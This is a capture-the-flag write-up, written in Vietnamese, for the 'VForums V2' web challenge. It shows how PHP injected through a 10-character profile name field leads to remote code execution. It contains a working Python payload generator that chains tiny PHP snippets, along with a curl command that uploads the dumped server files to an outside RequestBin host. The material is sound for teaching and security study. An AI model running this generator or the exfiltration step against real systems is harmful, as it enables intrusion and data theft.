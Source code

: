 ## VForums V2
### 200 points

Bài này thì mình thấy khá là nghệ thuật, biết được đâm vào đâu thì không khó, mà biết đâm vào như nào mới khó.

### Đề bài
<pre>
<a href="http://35.240.153.120:8002">http://35.240.153.120:8002</a>
</pre>

### Giao diện của bài:

Nhiều bài chỉ có mỗi trang login thế này trông hơi bùn, nhưng biết làm sao

![][view-login]

### Lời giải

Như thường lệ, mình vẫn tạo tài khoản, đăng nhập thử và đi dạo vài tính năng xem có gì thú vị

Thì thấy khi update `Name` ở đây

![][view-update-info]

Thì bên `Logs` sẽ có thêm một dòng như này

![][view-logs]

Thử update đổi `Name` thành `<??>`, thấy name trong `Logs` biến mất, biết ngay là nó thực thi đoạn php đó rồi 

![][view-injected]

Tuy nhiên khi mình thử update `Name` thành một đoạn php dài hơn thì bị báo chỉ được sử dụng 10 chars thôi :'(

![][view-10-chars]

Vậy mục tiêu ở đây là phải viết được cái command làm sao để RCE được nhưng vẫn tuân thủ điều kiện 10 chars của bài

Sau khi lục lọi trên mạng một lúc thì mình tìm được 2 shorthand commands cực hữu ích, đó là `<?=$variable?>` thay cho `echo $variable`, và `` `{$variable}` `` thay cho `exec($variable)`.

Thử lệnh `<?=`ls`?>` (10 chars) ta được kết quả

![][view-ls]

Sau đó, vì nhận thấy rằng phép gán biến, ví dụ `<?$a="b"?>` hết 10 chars, phép nối biến, ví dụ `<?$a.=$b?>` hết 10 chars, kèm thêm lệnh exec, ví dụ `` <?`{$a}`?> ``, cũng hết 10 chars,
 nên 3 lệnh này đều có thể sử dụng làm bàn đạp để RCE.
 
Tuy nhiên ở đây có một vấn đề đó là vì không chèn thêm được `=` vào trong các lệnh này nên mình không echo được kết quả ra. Vì vậy mình chọn phương án `cat *` các file trong thư mục đó ra và gửi lên `RequestBin`. Bạn có thể tạo một file shell nho nhỏ trên server để chạy lệnh và echo ra cho tiện, tuy nhiên kia là cách mình xử lý trong lúc làm bài. Mình viết một đoạn payload generator bằng Python như sau:
```python
import requests

cookie = '<cookie>';

def gen(command):
    v = 'b'

    r = ['<?$a=""?>']
    
    for c in command:
        if (v > 'z'):
            for i in range(ord('b'), ord('z') + 1):
                r.append('<?${}.=${}?>'.format('a', chr(i)))
            v = 'b'
        r.append('<?${}="{}"?>'.format(v, c))
        v = chr(ord(v) + 1)

    for i in range(ord('b'), ord(v)):
        r.append('<?${}.=${}?>'.format('a', chr(i)))
    r.append('<?=$a?>')
    r.append('<?`{$a}`?>')
    return r

def nameChange(name):
    return requests.post('http://35.240.153.120:8002/index.php?page=profile', data = {
        'name': name
    }, headers = {
        'cookie': cookie
    })

r1 = gen('cat * > out.txt')
for c in r1:
    nameChange(c)
r = gen('curl http://requestbin.net/r/x5ev70x5 -F \'f=@out.txt\' -X POST')
for c in r:
    nameChange(c)
``` 

Kết quả, vì mình chạy update với mỗi kí tự trong payload nên sẽ có một đoạn log dài ngoằng như kia, dòng cuối cùng là payload đã nối lại, được mình echo ra, cho biết payload đã chạy thành công

![][view-executed]

Việc còn lại là bới RequestBin tìm flag thôi :3

### Flag

![][flag]

```
flag{0nly_10_ch4r_(T__T)}
```

[view-login]: assets/VFORUMS_V2/view-login.png
[view-update-info]: assets/VFORUMS_V2/view-update-info.png
[view-logs]: assets/VFORUMS_V2/view-logs.png
[view-injected]: assets/VFORUMS_V2/view-injected.png
[view-10-chars]: assets/VFORUMS_V2/view-10-chars.png
[view-ls]: assets/VFORUMS_V2/view-ls.png
[view-executed]: assets/VFORUMS_V2/view-executed.png
[flag]: assets/VFORUMS_V2/flag.png